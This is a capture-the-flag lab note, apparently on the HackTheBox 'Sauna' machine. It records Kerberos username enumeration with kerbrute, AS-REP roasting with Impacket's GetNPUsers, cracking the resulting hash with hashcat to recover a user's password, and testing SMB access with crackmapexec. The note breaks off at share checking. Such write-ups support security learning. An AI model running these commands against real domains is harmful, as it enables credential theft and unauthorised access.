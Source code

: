 Final user list:
![[Pasted image 20241212225218.png]]
Using #kerbrute to identify valid usernames [[Kerbrute]]
https://github.com/ropnop/kerbrute/releases/tag/v1.0.3

`./kerbrute userenum -dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL users.txt `

No hits. Need to add more possible usernames to users.txt such as `administrator, guest`
Ahh there was a space at the end of the usernames. 
Remove the space and two users discovered. 
![[Pasted image 20241212230327.png]]
Look for #psexec .py example script within #impacket by running `locate psexec.py`

![[Pasted image 20241213185329.png]]
Need to go through each of these scripts to find out exactly what they do:
![[Pasted image 20241213185413.png]]

Most valuable scripts:
1. `GetNPUsers.py` - ASREP roast and it queries the target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking
2. `GetUserSPNs.py` - 

We are using #getnpusers.py

`GetNPUsers.py EGOTISTICAL-BANK.LOCAL/administrator` (fail)
![[Pasted image 20241213190059.png]]

`GetNPUsers.py EGOTISTICAL-BANK.LOCAL/FSmith` (success)
![[Pasted image 20241213190201.png]]

Be sure to add domain name to `/etc/hosts`

![[Pasted image 20241213190025.png]]
We got fsmith's #TGT and the decryption key should be the user's password. 

Password cracking tgt with #hashcat 

`./hashcat --example-hashes | grep asrep` and look for `23`

See mode: `18200`

`./hashcat -m 18200 hashes/sauna /opt/wordlist/rockyou.txt`

Hash cracked. Got fsmith's password: `Thestrokes23`

So what can we do with this? 

#crackmapexec 

`crackmapexec smb 10.10.10.175 -u fsmith -p Thestrokes23` 

![[Pasted image 20241213191134.png]]
It doesn't say pwned so we can't psexec into the box. 

Checking shares:
